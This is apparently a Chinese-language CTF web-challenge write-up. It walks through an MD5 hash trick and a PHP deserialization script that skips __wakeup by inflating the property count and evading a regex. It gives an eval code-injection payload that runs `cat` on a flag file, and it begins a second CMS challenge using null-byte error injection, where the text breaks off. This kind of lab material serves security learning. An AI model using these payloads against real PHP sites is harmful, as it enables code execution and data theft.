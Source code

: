 观察参数?key=123&hash=f9109d5f83921a551cf859f853afe7bb，查看源码提示$hash=md5($sign.$key);the length of $sign is 8，md5(f9109d5f83921a551cf859f853afe7bb)=kkkkk01123

构造payload: ?key=111&hash=md5(kkkkk01111)

提示访问Gu3ss_m3_h2h2.php，代码审计

反序列化绕过_wakeup,如果存在__wakeup方法，调用 unserilize() 方法前则先调用__wakeup方法，但是序列化字符串中表示对象属性个数的值大于 真实的属性个数时会跳过__wakeup的执行 

```
<?php
class Demo {
    private $file = 'Gu3ss_m3_h2h2.php';
    public function __construct($file) {
        $this->file = $file;
    }
    function __destruct() {
        echo @highlight_file($this->file, true);
    }
    function __wakeup() {
        if ($this->file != 'Gu3ss_m3_h2h2.php') {
            //the secret is in the f15g_1s_here.php
            $this->file = 'Gu3ss_m3_h2h2.php';
        }
    }}
	$a = new Demo('f15g_1s_here.php');
	$s = serialize($a);
	echo $s;
	echo '<br>';
	echo preg_match('/[oc]:\d+:/i', $s);
	$s=str_replace("4","4+",$s);
	//不明白为什么变成4+
	//O:4+:"Demo":1:{s:10:"Demofile";s:16:"f15g_1s_here.php";}
	$s=str_replace(":1:",":8:",$s);
	//O:4+:"Demo":8:{s:10:"Demofile";s:16:"f15g_1s_here.php";}
	echo preg_match('/[oc]:\d+:/i', $s);
	echo '<br>';
	echo base64_encode($s);
?>
```

绕过显示f15g_1s_here.php,addslashes转义，它会将我们的’”都进行转义

Payload：f15g_1s_here.php?val=${eval($_GET[a])}&a=echo `cat True_F1ag_i3_Here_233.php`;

writeup: https://www.cnblogs.com/wosun/p/11505950.html

## 再见CMS

1. 注册用户，记住uid和邮箱
2. 报错测试

```
ichunqiu.com/member/userinfo.php?job=edit&step=2
POST：
truename=ycc%0000&Limitword[000]=&email=ycc@qq.com&provinceid=
```
